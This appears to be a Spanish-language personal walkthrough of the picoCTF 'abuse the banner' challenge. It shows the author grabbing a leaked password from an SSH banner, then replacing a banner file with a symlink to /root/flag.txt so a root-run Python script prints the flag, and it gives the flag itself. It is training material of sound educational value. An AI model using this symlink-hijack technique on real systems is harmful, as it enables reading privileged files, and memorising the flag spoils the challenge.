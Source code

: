 #Software #Hacking #Computación #GeneralSkills
Hecho por: [[Yo|Adrián Fernando Cuevas Solís]]
# Definición
Can you abuse the banner?The server has been leaking some crucial information on `tethys.picoctf.net 50206`. Use the leaked information to get to the server.To connect to the running application use `nc tethys.picoctf.net 57011`. From the above information abuse the machine and find the flag in the /root directory.
# Hints
- Do you know about symlinks?
- Maybe some small password cracking or guessing
# Solución
Primero usamos [[NET CAT]] para conectarnos al primer puerto, pero este nos da una contraseña:

```bash
AsumomezaC-picoctf@webshell:~$ nc tethys.picoctf.net 50206
SSH-2.0-OpenSSH_7.6p1 My_Passw@rd_@1234
```

Luego nos conectamos al segundo puerto y completamos lo que se nos pide, logrando ingresar:
```shell
AsumomezaC-picoctf@webshell:~$ nc tethys.picoctf.net 57011
*************************************
**************WELCOME****************
*************************************

what is the password? 
My_Passw@rd_@1234
What is the top cyber security conference in the world?
DEFCON
the first hacker ever was known for phreaking(making free phone calls), who was it?
John Draper
```
>Puedes ver más sobre las respuestas aquí:
>- [DEFCON](https://defcon.org/?mob=1)
>- [John Draper](https://es.wikipedia.org/wiki/John_Draper)

Usamos [[ls]] para ver que contiene este servidor:
```bash
player@challenge:~$ ls -la
ls -la
total 20
drwxr-xr-x 1 player player   20 Mar  9  2024 .
drwxr-xr-x 1 root   root     20 Mar  9  2024 ..
-rw-r--r-- 1 player player  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 player player 3771 Apr  4  2018 .bashrc
-rw-r--r-- 1 player player  807 Apr  4  2018 .profile
-rw-r--r-- 1 player player  114 Feb  7  2024 banner
-rw-r--r-- 1 root   root     13 Feb  7  2024 text
```

Observamos dos archivos que nos llaman la atención, así que usamos [[CAT]] para ver que contienen:
```bash
player@challenge:~$ cat banner
cat banner
*************************************
**************WELCOME****************
*************************************
player@challenge:~$ cat text
cat text
keep digging
```

Pero esto no nos da mucha información, y nos pide que sigamos investigando. Por lo cual inspeccionamos el root, y vemos la bandera, pero no tenemos [[Permisos]] de lectura:
```bash
player@challenge:~$ ls -la /root
ls -la /root
total 16
drwxr-xr-x 1 root root    6 Mar 12  2024 .
drwxr-xr-x 1 root root   29 Apr 13 23:30 ..
-rw-r--r-- 1 root root 3106 Apr  9  2018 .bashrc
-rw-r--r-- 1 root root  148 Aug 17  2015 .profile
-rwx------ 1 root root   46 Mar 12  2024 flag.txt
-rw-r--r-- 1 root root 1317 Feb  7  2024 script.py
```

Por lo cual vemos el otro archivo que nos llama la atención, el 'script.py':

```bash
player@challenge:~$ cat /root/script.py
cat /root/script.py

import os
import pty

incorrect_ans_reply = "Lol, good try, try again and good luck\n"

if __name__ == "__main__":
    try:
      with open("/home/player/banner", "r") as f:
        print(f.read())
    except:
      print("*********************************************")
      print("***************DEFAULT BANNER****************")
      print("*Please supply banner in /home/player/banner*")
      print("*********************************************")

try:
    request = input("what is the password? \n").upper()
    while request:
        if request == 'MY_PASSW@RD_@1234':
            text = input("What is the top cyber security conference in the world?\n").upper()
            if text == 'DEFCON' or text == 'DEF CON':
                output = input(
                    "the first hacker ever was known for phreaking(making free phone calls), who was it?\n").upper()
                if output == 'JOHN DRAPER' or output == 'JOHN THOMAS DRAPER' or output == 'JOHN' or output== 'DRAPER':
                    scmd = 'su - player'
                    pty.spawn(scmd.split(' '))

                else:
                    print(incorrect_ans_reply)
            else:
                print(incorrect_ans_reply)
        else:
            print(incorrect_ans_reply)
            break

except:
    KeyboardInterrupt
```

Vemos como se configura la interfaz que nos permitió conectarnos al servidor, pero vemos una excepción: depende de que '/home/player/banner' exista, por lo cual lo eliminamos con [[RM]]:

```bash
player@challenge:~$ rm /home/player/banner
rm /home/player/banner
```

Y ahora, establecemos un link, haciendo que '/home/player/banner' ya no apunte al banner, sino a la bandera (usando [[ln#3. Enlace a directorio]]):
```bash
player@challenge:~$ ln -s /root/flag.txt /home/player/banner
ln -s /root/flag.txt /home/player/banner
```

Salimos del servidor y volvemos a entrar para que nos vuelva a pedir ingresar (y ejecute el archivo de [[Python]]), y obtenemos la bandera:
```bash
player@challenge:~$ ^C
AsumomezaC-picoctf@webshell:~$ nc tethys.picoctf.net 57011
picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_218ef5d6}

what is the password? 
```
## Respuesta
picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_218ef5d6}